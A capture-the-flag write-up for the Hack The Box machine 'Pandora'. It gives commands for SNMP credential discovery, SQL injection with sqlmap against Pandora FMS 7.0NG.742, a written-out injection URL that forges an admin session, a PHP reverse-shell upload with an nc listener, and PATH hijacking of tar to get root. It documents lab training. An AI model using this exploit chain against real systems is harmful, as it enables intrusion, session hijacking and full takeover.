 # Pandora Writeup

## Tools
- nmap
- snmpwalk
- sqlmap
- nc

## Enumeration
run Nmap

```
nmap -A 10.10.11.136
```

![](https://i.imgur.com/MSVwynD.png)
here we see 2 open ports, ssh 22 and http 80

## Website
![](https://i.imgur.com/nt6UNby.png)
Nothing interesting in the source code
Directory Bruteforcing using ffuf, Nothing also

## More Enumeration
I tried to run nmap to check all ports, but found nothing.
We can also check UDP ports

```
nmap -sU 10.10.11.136
```

![](https://i.imgur.com/hPynFwx.png)
We have SNMP Open here!

## SNMP Enumeration
let's run snmpwalk and save the output in a file so we can analyze it.

```
snmpwalk -v1 -c public 10.10.11.136 > snmapwalk.txt
```

after reading through the file, I found this
![](https://i.imgur.com/zwvEjIZ.png)

## Gaining Access
let's connect to SSH using these credentials

```
ssh daniel@10.10.11.136
```

![](https://i.imgur.com/BPNy8Tx.png)

## Privilege Escalation
check kernel version

```
uname -a
```

![](https://i.imgur.com/9eQMJwz.png)
I found an exploit for this version *Linux Kernel 5.4 - 'BleedingTooth'*
but there's no c compiler on the machine

check what we can run using sudo

```
sudo -l
```

![](https://i.imgur.com/eXIoLRV.png)

I will run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to collect more information about the system
Transfering the script to the machine

```
scp linpeas.sh  daniel@10.10.11.136:/home/daniel
```

after reading through its output, I found that there's another website called pandora
![](https://i.imgur.com/f6Lxl9X.png)
let's check /etc/hosts

```
cat /etc/hosts
```

![](https://i.imgur.com/S1upE6A.png)
we can access it just through this machine
so, let's tunnel a session to our localhost

```
ssh -L 8080:127.0.0.1:80 daniel@10.10.11.136
```

now we can access the website **127.0.0.1:8080**
![](https://i.imgur.com/suKe4u8.png)
It's login page for Pandora FMS event system
let's try to log in using daniel's credentials
![](https://i.imgur.com/aVcSWub.png)
we can see its version at the bottom of the page **v7.0NG.742_FIX_PERL2020**
Searching for an exploit, I found this [blog post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)
Unauthenticated SQL Injection via session_id parameter on /include/chart_generator.php page
first, let's capture the request with burp suite and save it to a file
![](https://i.imgur.com/AFo76D6.png)
let's run sqlmap

```
sqlmap -r req.txt
```

![](https://i.imgur.com/9MN8S3y.png)
enumerating databases

```
sqlmap -r req.txt --dbs
```

![](https://i.imgur.com/9yhonzE.png)
enumerating pandora database tables

```
sqlmap -r req.txt --tables -D pandora
```

![](https://i.imgur.com/8ftNXOU.png)
after going through some tables, I found a table called **tsessions_php** storing php session ids

```
sqlmap -r req.txt --dump -T tsessions_php -D pandora
```
here we have php session id for user matt
![](https://i.imgur.com/Wff3MLB.png)

change PHPSESSID cookie with matt's php session ID we found
![](https://i.imgur.com/OveuuAZ.png)

We need to escalate to admin.
This [repo](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) has a payload to gain admin access

visit this link ->
http://127.0.0.1:8080/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO

Admin tools > File manager, we can upload our [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/).

> Note: don't forget to change the ip address in the reverse shell file to your ip

![](https://i.imgur.com/rvxWCXN.png)
![](https://i.imgur.com/JG61wqC.png)
let's first open listener before firing the reverse shell

```
nc -lvp 1234
```

![](https://i.imgur.com/8xvWeMD.png)
Now all we need is to locate where our file is
hovering over any of the directories available, we can see its link on the bottom left corner. it says directory=images/backgrounds
so, Our reverse shell is at **http://127.0.0.1:8080/pandora_console/images/revshell.php**
let's open it
![](https://i.imgur.com/iqQAQFV.png)

we now got access to matt's account
![](https://i.imgur.com/vPLwpiL.png)

User flag
![](https://i.imgur.com/P2T70wn.png)

## Privilege Escalation
user matt can't run sudo
![](https://i.imgur.com/3JNRdYg.png)
running linpeas again
we can use **at** to break out from restricted environments
![](https://i.imgur.com/F6EwiBP.png)

[at command](https://gtfobins.github.io/gtfobins/at/#sudo)
break out using at, and then spawning a tty

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://i.imgur.com/n83DhlW.png)

/usr/bin/pandora_backup file looks interesting.

![](https://i.imgur.com/Uwjjd8J.png)

we don't have Strings to analyze it.
I will just run `cat` and see what it contains

![](https://i.imgur.com/GtmthYd.png)

it runs tar to compress some files
we can exploit that by overwriting tar program

first, we create our version of tar in /tmp directory
```
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
```

![](https://i.imgur.com/NGaHyWf.png)

add tmp in the PATH variable before all directories
```
export PATH=/tmp:$PATH
```

![](https://i.imgur.com/eBmEBkf.png)

now we can run our file and gain root access
```
/usr/bin/pandora_backup
```

![](https://i.imgur.com/32FggtX.png)

root flag

![](https://i.imgur.com/SGLVYyx.png)

## Recourses
- https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
- (https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py
- https://github.com/pentestmonkey/php-reverse-shell/blob/
- https://gtfobins.github.io/gtfobins/at/#sudo
- http://www.linfo.org/path_env_var.html#:~:text=PATH%20is%20an%20environmental%20variable,commands%20issued%20by%20a%20user.
- https://www.pentestpartners.com/security-blog/exploiting-suid-executables/
